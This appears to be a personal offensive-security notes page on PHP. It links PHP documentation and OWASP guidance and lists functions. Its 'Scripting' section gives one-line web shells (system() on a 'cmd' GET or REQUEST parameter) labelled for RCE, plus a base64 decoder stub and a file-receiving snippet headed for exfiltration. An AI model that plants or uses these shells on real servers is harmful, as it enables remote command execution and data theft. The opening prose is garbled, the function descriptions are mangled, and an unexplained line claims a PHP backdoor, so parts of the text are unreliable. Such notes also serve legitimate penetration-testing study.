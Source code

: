 # Useful PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful PHP with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context and user context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

## Secure PHP

[OWASP PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
[PHP The Right Way: Security](https://phptherightway.com/#security)
[Secure Coding in PHP](https://www.php.net/manual/en/security.php)

## General information

PHP 8.1 - Dev has a Backdoor

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```


```php

// comm/ents
```


## Useful Functions listing

Regex
[preg_match](https://www.php.net/manual/en/function.preg-match.php) - Perform a regular expression match

[is_resource](https://www.php.net/manual/en/function.is-resource.php) - Finds whether a variable is a resource

Arrays
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array

Strings 
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string

Files
[finfo_open](https://www.php.net/manual/en/function.finfo-open.php) - Create a new finfo instance
[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php) - Moves an uploaded file to a new location
[file_put_contents](https://www.php.net/manual/en/function.file-put-contents.php)

Execution:
[passthru](https://www.php.net/manual/en/function.passthru.php) - The _passthru_() function is similar to the exec() function in that it executes a command . This function should be used in place of exec() or system() he output from the Unix command is binary data which needs to be passed directly back to the browser. 


## Superglobals

PHP [superglobals](https://www.php.net/manual/en/language.variables.superglobals.php) are variables that are associative arrays that are available in all scopes throughout a script.

The superglobal `$GLOBAL` variable defines globally scope variables
- As of PHP 8.1.0, write access to the entire [`$GLOBALS`](https://www.php.net/manual/en/reserved.variables.globals.php) array is no longer supported


## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions

[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
[OWASP PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
[PHP The Right Way: Security](https://phptherightway.com/#security)
[Secure Coding in PHP](https://www.php.net/manual/en/security.php)